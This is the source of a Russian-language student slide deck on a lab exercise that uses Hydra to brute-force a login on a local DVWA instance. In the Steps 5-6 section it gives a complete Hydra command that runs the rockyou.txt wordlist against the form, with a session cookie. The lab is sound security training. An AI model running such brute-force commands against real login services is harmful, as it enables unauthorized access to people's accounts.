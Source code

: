 ```yaml
---
## Front matter
lang: ru-RU
title: Ind Project Stage №3
author: |
	Anna D. Zaytseva\inst{1,3}
institute: |
	\inst{1}RUDN University, Moscow, Russian Federation
date: NEC--2024, 28 September, Moscow

## Formatting
toc: false
slide_level: 2
theme: metropolis
header-includes: 
 - \metroset{progressbar=frametitle,sectionpage=progressbar,numbering=fraction}
 - '\makeatletter'
 - '\beamer@ignorenonframefalse'
 - '\makeatother'
aspectratio: 43
section-titles: true
---
```


# Цель работы

Цель работы --- Приобретение практических навыков по использованию инструмента Hydra для брутфорса (подбора) паролей.

# Выполнение этапа индивидуального проекта

## Steps 1-4

Подготовка к подбору паролей:

![Копирую архив в директорию Downloads и разархивирую его -- файл с паролями](images/1.png){ #fig:001 width=70% }

![Запуск сервисов](images/2.png){ #fig:002 width=70% }

![Форма для брут-форса](images/3.png){ #fig:003 width=70% }

![Фрагменты-cookie](images/4.png){ #fig:004 width=70% }

## Steps 5-6

Работа с Hydra, подбор пароля для учётной записи:

```
hydra -l admin -P ~/Downloads/rockyou.txt -s 80 localhost http-get-form "/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:security=medium;PHPSESSID=of74bg222ffc6vigcsjfqbvhq7:F=Username and/or password incorrect."
```

![Данные найдены](images/5.png){ #fig:005 width=70% }

## Step 7

Настроила сервер apache2:

Ввела данные в соответствующее поле. Операция прошла успешно:

![Успешная авторизация](images/6.png){ #fig:006 width=70% }

# Вывод

Приобрела практический навык по использованию инструмента Hydra для брутфорса (подбора) паролей.

# Библиография

* https://github.com/digininja/DVWA?tab=readme-ov-file
* https://www.kali.org/
* https://spy-soft.net/rockyou-txt/
* https://losst.pro/kak-polzovatsya-hydra#perebor-parolya-autentifikcii-http

## {.standout}

Спасибо за внимание!
